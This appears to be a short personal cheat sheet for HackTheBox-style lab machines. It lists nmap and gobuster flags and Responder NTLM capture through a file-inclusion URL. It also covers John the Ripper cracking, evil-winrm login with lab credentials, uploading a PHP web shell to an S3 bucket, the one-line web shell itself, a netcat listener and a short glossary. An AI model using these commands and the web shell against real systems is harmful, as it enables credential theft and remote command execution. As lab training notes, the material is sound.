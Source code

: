 #nmap

```shell
-sC: Performs a script scan using the default set of scripts. It is equivalent to --
script=default. Some of the scripts in this category are considered intrusive and
should not be run against a target network without permission.

-sV: Enables version detection, which will detect what versions are running on what
port.h

-p- : This flag scans for all TCP ports ranging from 0-65535

--min-rate : This is used to specify the minimum number of packets Nmap should send per
second; it speeds up the scan as the number goes higher
```

#gobuster

```shell
dir : Uses directory/file enumeration mode.
vhosts : Uses VHOST for brute-forcing.

--url : The target URL.
--wordlist : Path to the wordlist.
-x : File extension(s) to search for. (php/html)
```

# Responder:
```shell
sudo responder -I {network_interface} 
http://unika.htb/?page=//10.10.14.25/somefile
```

# John the riper:
```shell
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

#evil-winrm
```shell
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

#AWS
```shell
$ aws configure
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
                                                                                                            
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2022-08-14 13:08:27 thetoppers.htb

$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2022-08-14 13:08:27          0 .htaccess
2022-08-14 13:08:27      11952 index.php

$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php              
                                                                                                            
```

# PHP
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
http://thetoppers.htb/shell.php?cmd=id
```

#REVERSE SHELL
start ncat listener on our local port:
```shell
nc -nvlp 1337
```

# Acronyms

WinRM, is a Windows-native built-in remote management protocol. port: 5985
NTLM: New Technology LAN Manager
LFI: Local File inclusion // File Inclusion Vulnerability // https://www.php.net/manual/en/function.include.php 
RFI: Remote File Inclusion // File Inclusion Vulnerability // https://www.php.net/manual/en/function.include.php

S3: is a cloud-based object storage service. It allows us to store things in containers called buckets.
AWS S3 buckets have various use-cases including Backup and Storage, Media Hosting, Software Delivery,
Static Website etc. The files stored in the Amazon S3 bucket are called S3 objects.
